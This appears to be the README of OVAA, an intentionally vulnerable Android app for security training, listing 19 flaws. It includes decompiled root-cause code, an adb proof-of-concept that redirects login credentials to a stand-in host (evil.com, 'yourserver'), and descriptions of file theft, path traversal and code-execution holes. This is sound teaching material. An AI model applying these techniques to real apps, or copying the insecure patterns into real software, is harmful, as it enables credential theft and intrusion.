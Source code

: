 ## Description
OVAA (Oversecured Vulnerable Android App) is an Android app that aggregates all the platform's known and popular security vulnerabilities.

## List of vulnerabilities
This section only includes the list of vulnerabilities, without a detailed description or proof of concept. Examples from OVAA will receive detailed examination and analysis on [our blog](https://blog.oversecured.com/).

1. Installation of an arbitrary `login_url` via deeplink `oversecured://ovaa/login?url=http://evil.com/`. Leads to the user's user name and password being leaked when they log in.


### Root cause
```xml
<activity
    android:name="oversecured.ovaa.activities.DeeplinkActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="oversecured"
            android:host="ovaa"/>
    </intent-filter>
</activity>

```

```java
public void onCreate(Bundle bundle) {
        Uri data;
        super.onCreate(bundle);
        this.loginUtils = LoginUtils.getInstance(this);
        Intent intent = getIntent();
        if (intent != null && "android.intent.action.VIEW".equals(intent.getAction()) && (data = intent.getData()) != null) {
            processDeeplink(data);
        }
        finish();
    }
private void processDeeplink(Uri uri) {
        String queryParameter;
        String host;
        if ("oversecured".equals(uri.getScheme()) && "ovaa".equals(uri.getHost())) {
            String path = uri.getPath();
            if ("/login".equals(path)) {
                String queryParameter2 = uri.getQueryParameter("url");
                if (queryParameter2 != null) {
                    this.loginUtils.setLoginUrl(queryParameter2);
                }
                startActivity(new Intent(this, (Class<?>) EntranceActivity.class));
                return;
            }
        }
    }

```

```java
public class LoginUtils {
    private static final String EMAIL_KEY = "email";
    private static final String LOGIN_URL_KEY = "login_url";
    private static final String PASSWORD_KEY = "password";
    private static LoginUtils utils;
    private Context context;
    private SharedPreferences.Editor editor;
    private SharedPreferences preferences;

    private LoginUtils(Context context) {
        this.context = context;
        SharedPreferences sharedPreferences = context.getSharedPreferences("login_data", 0);
        this.preferences = sharedPreferences;
        this.editor = sharedPreferences.edit();
    }

    public void setLoginUrl(String str) {
        this.editor.putString(LOGIN_URL_KEY, str).commit();
    }
}
```


```java
public class EntranceActivity extends AppCompatActivity {
    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        if (LoginUtils.getInstance(this).isLoggedIn()) {
            startActivity(new Intent("oversecured.ovaa.action.ACTIVITY_MAIN"));
        } else {
            startActivity(new Intent("oversecured.ovaa.action.LOGIN"));
        }
        finish();
    }
}
```


```java
public class LoginActivity extends AppCompatActivity {
    public static final String INTENT_REDIRECT_KEY = "redirect_intent";
    private LoginUtils loginUtils;

    /* JADX INFO: Access modifiers changed from: protected */
    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        setContentView(R.layout.activity_login);
        LoginUtils loginUtils = LoginUtils.getInstance(this);
        this.loginUtils = loginUtils;
        if (loginUtils.isLoggedIn()) {
            onLoginFinished();
        } else {
            findViewById(R.id.loginButton).setOnClickListener(new View.OnClickListener() { // from class: oversecured.ovaa.activities.LoginActivity.1
                @Override // android.view.View.OnClickListener
                public void onClick(View view) {
                    String obj = ((TextView) LoginActivity.this.findViewById(R.id.emailView)).getText().toString();
                    String obj2 = ((TextView) LoginActivity.this.findViewById(R.id.passwordView)).getText().toString();
                    if (TextUtils.isEmpty(obj)) {
                        Toast.makeText(LoginActivity.this, "Email is emply!", 1).show();
                    } else if (TextUtils.isEmpty(obj2)) {
                        Toast.makeText(LoginActivity.this, "Password is emply!", 1).show();
                    } else {
                        LoginActivity.this.processLogin(obj, obj2);
                    }
                }
            });
        }
    }

    /* JADX INFO: Access modifiers changed from: private */
    public void processLogin(String str, String str2) {
        LoginData loginData = new LoginData(str, str2);
        Log.d("ovaa", "Processing " + loginData);
        ((LoginService) RetrofitInstance.getInstance().create(LoginService.class)).login(this.loginUtils.getLoginUrl(), loginData).enqueue(new Callback<Void>() { // from class: oversecured.ovaa.activities.LoginActivity.2
            @Override // retrofit2.Callback
            public void onFailure(Call<Void> call, Throwable th) {
            }

            @Override // retrofit2.Callback
            public void onResponse(Call<Void> call, Response<Void> response) {
            }
        });
        this.loginUtils.saveCredentials(loginData);
        onLoginFinished();
    }

    private void onLoginFinished() {
        Intent intent = (Intent) getIntent().getParcelableExtra(INTENT_REDIRECT_KEY);
        if (intent != null) {
            startActivity(intent);
        } else {
            startActivity(new Intent(this, (Class<?>) MainActivity.class));
        }
        finish();
    }
}
```

### Proof of Concept
```bash
adb shell am start -a android.intent.action.VIEW -d "oversecured://ovaa/login?url=https://yourserver"
```

3. Obtaining access to arbitrary content providers (not exported, but with the attribute `android:grantUriPermissions="true"`) via deeplink `oversecured://ovaa/grant_uri_permissions`. The attacker's app needs to process `oversecured.ovaa.action.GRANT_PERMISSIONS` and pass intent to `setResult(code, intent)` with flags such as `Intent.FLAG_GRANT_READ_URI_PERMISSION` and the URI of the content provider.
4. Vulnerable host validation when processing deeplink `oversecured://ovaa/webview?url=...`.
5. Opening arbitrary URLs via deeplink `oversecured://ovaa/webview?url=http://evilexample.com`. An attacker can use the vulnerable WebView setting `WebSettings.setAllowFileAccessFromFileURLs(true)` in the `WebViewActivity.java` file to steal arbitrary files by sending them XHR requests and obtaining their content.
6. Access to arbitrary activities and acquiring access to arbitrary content providers in `LoginActivity` by supplying an arbitrary Intent object to `redirect_intent`.
7. Theft of arbitrary files in `MainActivity` by intercepting an activity launch from `Intent.ACTION_PICK` and passing the URI to any file as data.
8. Insecure broadcast to `MainActivity` containing credentials. The attacker can register a broadcast receiver with action `oversecured.ovaa.action.UNPROTECTED_CREDENTIALS_DATA` and obtain the user's data.
9. Insecure activity launch in `MainActivity` with action `oversecured.ovaa.action.WEBVIEW`, containing the user's encrypted data in the query parameter `token`.
10. Deletion of arbitrary files via the insecure `DeleteFilesSerializable` deserialization object.
11. Memory corruption via the `MemoryCorruptionParcelable` object.
12. Memory corruption via the `MemoryCorruptionSerializable` object.
13. Obtaining read/write access to arbitrary files in `TheftOverwriteProvider` via path-traversal in the value `uri.getLastPathSegment()`.
14. Obtaining access to app logs via `InsecureLoggerService`. Leak of credentials in `LoginActivity` `Log.d("ovaa", "Processing " + loginData)`.
15. Use of the hardcoded AES key in `WeakCrypto`.
16. Arbitrary Code Execution in `OversecuredApplication` by launching code from third-party apps with no security checks.
17. Use of very wide file sharing declaration for `oversecured.ovaa.fileprovider` content provider in `root` entry.
18. Hardcoded credentials to a dev environment endpoint in `strings.xml` in `test_url` entry.
19. Arbitrary code execution via a DEX library located in a world-readable/writable directory.

---------------------------------------
*Licensed under the Simplified BSD License*

*Copyright (c) 2020, Oversecured Inc*

https://oversecured.com/
